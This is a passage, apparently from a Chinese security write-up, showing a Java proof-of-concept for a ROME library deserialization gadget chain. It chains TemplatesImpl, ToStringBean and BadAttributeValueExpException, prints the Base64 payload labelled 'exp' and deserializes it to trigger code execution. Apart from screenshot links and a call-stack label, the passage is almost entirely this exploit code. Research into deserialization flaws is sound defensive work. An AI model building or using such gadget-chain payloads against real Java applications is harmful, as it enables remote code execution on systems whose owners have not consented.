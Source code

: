 [![](assets/1701071934-e77d0907ed68cd42fd0b7f379fff177a.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231124223345-790421c4-8ad6-1.png)  
demo

```plain
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.syndication.feed.impl.ToStringBean;
import javax.management.BadAttributeValueExpException;
import javax.xml.transform.Templates;
import java.util.Base64;

public class rome2 {
    public static void main(String[] args) throws Exception{
        TemplatesImpl template = (TemplatesImpl) util.getTeml();
        ToStringBean toStringBean = new ToStringBean(Templates.class, template);
        BadAttributeValueExpException b = new BadAttributeValueExpException(1);
        util.setFieldValue(b,"val",toStringBean);
        byte[] ser = util.serialize(b);
        String exp = Base64.getEncoder().encodeToString(ser);
        System.out.println(exp);
        util.unserialize(ser);
    }
}
```

[![](assets/1701071934-919af66044de1ac5bd3f16c2cc6ae5f2.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231124223402-834784be-8ad6-1.png)  
调用栈：  